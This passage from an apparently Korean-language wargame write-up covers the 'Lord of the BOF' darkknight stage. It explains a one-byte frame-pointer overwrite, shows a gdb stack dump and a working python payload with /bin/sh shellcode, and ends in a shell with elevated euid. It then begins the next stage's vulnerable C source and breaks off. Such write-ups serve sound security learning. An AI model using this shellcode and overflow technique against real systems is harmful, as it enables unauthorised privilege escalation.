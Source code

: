 서브 함수에서 ebp를 shellcode_pointer-0x4 위치로 바꾼다면, 서브 함수가 끝나고, 메인 함수의 에필로그 과정에서 pop ebp; pop eip 동작을 통해 eip가 shellcode를 가리킬 수 있게 된다. 물론 조작된 ebp는 메인 함수의 동작을 커버할 수 있는 만큼의 스택 프레임을 형성할 수 있어야 할 것이며, shellcode가 저장된 주소 값을 나타내는 pointer가 메모리 내에 존재해야 할 것이다.



다음의 메모리 상황을 보면, ebp+0x8 위치에 존재하는 argv pointer를 shellcode pointer로 사용할 수 있음을 알 수 있다.

```shell
(gdb) x/10wx $ebp
0xbffffabc:	0xbffffac8	0x0804849e	0xbffffc29	0xbffffae8
0xbffffacc:	0x400309cb	0x00000002	0xbffffb14	0xbffffb20
0xbffffadc:	0x40013868	0x00000002
(gdb) x/20wx 0xbffffc29
0xbffffc29:	0x90909090	0x90909090	0x6850c031	0x68732f2f
0xbffffc39:	0x69622f68	0x50e3896e	0x99e18953	0x80cd0bb0
0xbffffc49:	0x90909090	0x90909090	0x57500042	0x682f3d44
0xbffffc59:	0x2f656d6f	0x656c6f67	0x4552006d	0x45544f4d
0xbffffc69:	0x54534f48	0x3239313d	0x3836312e	0x2e37312e
```

물론 실제 메모리 주소랑 약간씩 달라서 core 파일 분석이 필요함.



```shell
[golem@localhost golem]$ ./darkknight `python -c 'print "\x90"*(40-24-8)+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x90"*8+"\xb0"'`
1󿿐h//shh/bin⏓ᙰ
              ̀°𙻿¿	@ 
bash$ id
uid=511(golem) gid=511(golem) euid=512(darkknight) egid=512(darkknight) groups=511(golem)
bash$ my-pass
euid = 512
new attacker
```





## STAGE 13 : darkknight -> bugbear

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - bugbear
        - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack betrayed you!!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]); 
```